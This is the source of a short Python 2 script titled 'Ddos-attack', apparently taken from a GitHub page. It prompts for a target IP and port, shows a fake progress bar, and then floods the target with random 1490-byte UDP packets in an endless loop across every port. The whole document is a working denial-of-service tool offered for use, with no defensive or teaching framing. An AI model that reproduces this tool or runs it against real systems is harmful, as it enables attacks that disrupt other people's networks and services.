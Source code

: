 # Ddos-attack 51 lines (47 sloc) 1.13 KB
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos Attack")
print
print "Author   : Aghorii"
print
ip = raw_input("IP Target : ")
port = input("Port       : ")

os.system("clear")
os.system("figlet Attack Starting")
print "[                    ] 0% "
time.sleep(5)
print "[=====               ] 25%"
time.sleep(5)
print "[==========          ] 50%"
time.sleep(5)
print "[===============     ] 75%"
time.sleep(5)
print "[====================] 100%"
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1
